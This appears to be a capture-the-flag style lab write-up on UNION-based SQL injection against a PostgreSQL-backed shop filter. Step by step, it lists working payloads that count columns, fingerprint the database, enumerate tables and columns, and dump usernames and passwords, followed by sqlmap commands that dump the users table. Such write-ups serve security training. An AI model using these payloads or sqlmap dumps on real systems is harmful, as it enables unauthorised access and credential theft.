 # Listing the database contents on non-Oracle databases

`/filter?category=Gifts'+UNION+SELECT+NULL--`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL--`: Ok (2 columns)

`/filter?category=Gifts'+UNION+SELECT+@@version,+NULL--`: Internal Server Error (not MySQL or MSSQL)

`/filter?category=Gifts'+UNION+SELECT+v$version,+NULL--`: Internal Server Error (not Oracle)

`/filter?category=Gifts'+UNION+SELECT+version(),+NULL--`: Ok (PostgreSQL)
![Querying version](sqli-05-01.png)

Get tables list:

`/filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Users table name is `users_zkpcnl` (suffix is random).

Get users table columns list:

`/filter?category=Gifts'+UNION+SELECT+column_name,+data_type+FROM+information_schema.columns+WHERE+table_name='users_zkpcnl'--`

Users table has two columns: `username_zoeoqs` and `password_etchpd` (suffix is random).

Get users with passwords:

`/filter?category=Gifts'+UNION+SELECT+username_zoeoqs,+password_etchpd+FROM+users_zkpcnl--`
![Querying version](sqli-05-02.png)

Solved.

## sqlmap

```bash
sqlmap -u $URL/filter?category=Pets --tables
sqlmap -u $URL/filter\?category\=Pets --dump users_mawrbq
```
![sqlmap demo](sqli-05-03.png)
